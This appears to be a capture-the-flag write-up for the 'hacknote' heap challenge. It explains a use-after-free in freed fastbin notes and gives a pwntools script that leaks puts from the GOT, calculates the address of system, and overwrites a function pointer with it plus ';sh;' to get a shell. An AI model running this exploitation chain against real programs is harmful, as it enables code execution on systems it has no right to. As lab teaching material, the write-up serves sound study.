 ```console
Your choice :3
Index :0
zsh: segmentation fault  ./hacknote
```
## Exploitation
If we could recieve a ptr from malloc as a note's content that is the same as a freed note's address we cloud overwrite the print function and call some_addr(Note* note_ptr).
How can we do that?     
Let's predict the heap bins and devise a plan:
```
// adding 2 notes: both with content size that won't be put in the fastbin.

// freeing note 0 and then note 1
fastbin 0x10: note1 -> note0

// allocating a note with content of size 8
// it's content will be a ptr to node0.
// we'll edit that note so it'll call the note_print_self function (that was already there)
// and we'll change the content to point to got puts(to break aslr)
fastbin 0x10: (empty)

// print note at index 0 (it'll print the note's "content" which is puts in the got.

// we'll then delete that note
fastbin 0x10: note1( = note2) -> note0( = note2 content)

// and allocate a new one with content of size 8.
// that note's content will point to note0 as well.
// this time we'll calculate system offset from puts and call system(ptr_to_node).
// we'll also put ;sh; after the function ptr so the shell command that ptr_to_node will point to is:
// <address of system> ; sh ; <garbage until null byte>
```

The script flow is as follows:
```py
def main():
    add_note(1000, b'0')
    add_note(1000, b'1')

    delete_note(0)
    delete_note(1)
    
    add_note(8, p32(NOTE_PRINT_SELF_ADDR) + p32(elf.got['puts']))
    print_note(0)
    
    puts_addr = u32(conn.recv(4))
    print(f"[+] PUTS ADDR: {hex(puts_addr)}")
    
    libc_addr = puts_addr - libc.symbols['puts']
    print(f"[+] LIBC ADDR: {hex(libc_addr)}")
    
    system_addr = libc_addr + libc.symbols['system']
    print(f'[+] SYSTEM ADDR: {hex(system_addr)}')
    
    delete_note(2)
    add_note(8, p32(system_addr) + b';sh;')

    print_note(0)
    conn.interactive()
```
Full script is available as sploit.py
```console
```